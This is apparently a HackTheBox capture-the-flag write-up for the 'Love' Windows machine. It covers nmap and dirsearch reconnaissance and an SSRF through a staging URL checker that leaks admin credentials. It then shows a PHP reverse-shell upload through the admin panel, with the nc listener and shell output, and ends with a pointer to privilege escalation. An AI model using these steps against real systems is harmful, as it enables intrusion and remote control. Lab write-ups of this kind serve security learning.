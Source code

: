 ## --------->> Love <<-----------

// We start with nmap scan 

    $ nmap -sV -A -Pn 10.10.10.239 -p-
-----

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 15:17 EDT
    Nmap scan report for 10.10.10.239
    Host is up (0.29s latency).
    Not shown: 65516 closed ports
    PORT      STATE SERVICE      VERSION
    80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: Voting System using PHP
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    | ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    | Not valid before: 2021-01-18T14:00:16
    |_Not valid after:  2022-01-18T14:00:16
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
    3306/tcp  open  mysql?
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, NULL, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, X11Probe: 
    |_    Host '10.10.16.238' is not allowed to connect to this MariaDB server
    5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    5040/tcp  open  unknown
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    | ssl-cert: Subject: commonName=LOVE
    | Subject Alternative Name: DNS:LOVE, DNS:Love
    | Not valid before: 2021-04-11T14:39:19
    |_Not valid after:  2024-04-10T14:39:19
    |_ssl-date: 2021-07-10T20:10:04+00:00; +32m46s from scanner time.
    | tls-alpn: 
    |_  http/1.1
    7680/tcp  open  pando-pub?
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC

    Host script results:
    |_clock-skew: mean: 2h17m46s, deviation: 3h30m01s, median: 32m45s
    | smb-os-discovery: 
    |   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
    |   OS CPE: cpe:/o:microsoft:windows_10::-
    |   Computer name: Love
    |   NetBIOS computer name: LOVE\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-07-10T13:09:46-07:00
    | smb-security-mode: 
    |   account_used: <blank>
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-07-10T20:09:44
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 1193.79 seconds
    
    
// We got a lot of info. lets first check web page (Port:80) Navigate in browser to http://10.10.10.239/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/1.png)

// Lets search for interesting directories in the website, for that we will use tool called ![dirsearch.py](https://github.com/maurosoria/dirsearch)

    $ python3 dirsearch.py -u http://10.10.10.239/ -i 100-400 -t 150
-----

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 150 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.239/_21-08-04_05-13-01.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-04_05-13-01.log

    Target: http://10.10.10.239/

    [05:13:01] Starting: 
    [05:13:12] 301 -  337B  - /ADMIN  ->  http://10.10.10.239/ADMIN/
    [05:13:12] 301 -  337B  - /Admin  ->  http://10.10.10.239/Admin/
    [05:13:20] 301 -  337B  - /admin  ->  http://10.10.10.239/admin/
    [05:13:20] 200 -    6KB - /admin%20/
    [05:13:20] 301 -  338B  - /admin.  ->  http://10.10.10.239/admin./
    [05:13:20] 200 -    6KB - /admin/
    [05:13:20] 200 -    6KB - /admin/?/login
    [05:13:21] 200 -    6KB - /admin/index.php
    [05:13:21] 302 -    0B  - /admin/login.php  ->  index.php
    [05:13:21] 302 -   16KB - /admin/home.php  ->  index.php
    [05:13:31] 301 -  348B  - /bower_components  ->  http://10.10.10.239/bower_components/
    [05:13:32] 200 -    7KB - /bower_components/
    [05:13:37] 301 -  336B  - /dist  ->  http://10.10.10.239/dist/
    [05:13:37] 200 -    1KB - /dist/
    [05:13:41] 302 -    0B  - /home.php  ->  index.php
    [05:13:42] 301 -  338B  - /images  ->  http://10.10.10.239/images/
    [05:13:42] 200 -    2KB - /images/
    [05:13:42] 200 -    2KB - /includes/
    [05:13:42] 301 -  340B  - /includes  ->  http://10.10.10.239/includes/
    [05:13:42] 200 -    4KB - /index.php/login/
    [05:13:42] 200 -    4KB - /index.php
    [05:13:45] 302 -    0B  - /login.php  ->  index.php
    [05:13:46] 302 -    0B  - /logout.php  ->  index.php
    [05:13:53] 301 -  339B  - /plugins  ->  http://10.10.10.239/plugins/
    [05:13:53] 200 -    2KB - /plugins/

    Task Completed


// We got some intersting directories, but didnt get a lot out of them...

// Moving on... 

// in nmap scan we got a subdomain 

    ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    
// lets add him to /etc/hosts

    $ sudo nano /etc/hosts
-----

    $ cat /etc/hosts
    10.10.10.239	staging.love.htb

// Navigating to http://staging.love.htb/ present us a File checker website 

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/2.png)

// Clicking on the demo button on the top present us a tab when we can insert a url for check

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/3.png)

// inserting http://10.10.10.239/ to the tab, its seems that it represent us with the page content

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/4.png)

// since we know there is a http service running on port 5000 and his status code is 403(Forbbiden)

// lets try to see the site content with that url checker

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/5.png)

// not much, but, remember that we run on the subdomain so change the url to http://localhost:5000/ or http://127.0.0.1:5000/ (Loopback)

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/6.png)

// We got admin credentials !!!

    admin : @LoveIsInTheAir!!!!

// Trying to login at http://10.10.10.239/ didnt work 

// So, we remeber(from directory search) that there is a directory called http://10.10.10.239/admin/

// Trying login again, and it worked !, we represented with the 'vote website' admin dashboard

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/7.png)

// Digging in the deshboard i notice there is a option to update admins picture

// click on the admin picture on the top >> click 'Update'

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/8.png)

// Then we have a upload button

![Image 9](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/9.png)

// Download a PHP reverse shell from [here](https://www.revshells.com) with recipe 'PHP Ivan Sincek'(for Windows)

![Image 10](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Love/10.png)

// Open a listiner with nc and upload the file

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.17.8] from (UNKNOWN) [10.10.10.239] 62160
    SOCKET: Shell has connected! PID: 2824
    Microsoft Windows [Version 10.0.19042.867]
    (c) 2020 Microsoft Corporation. All rights reserved.

    C:\xampp\htdocs\omrs\images> whoami
    love\phoebe

// We got user flag !!!

    C:\Users\Phoebe\Desktop> type user.txt
    5a55228............................

// 

[AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)






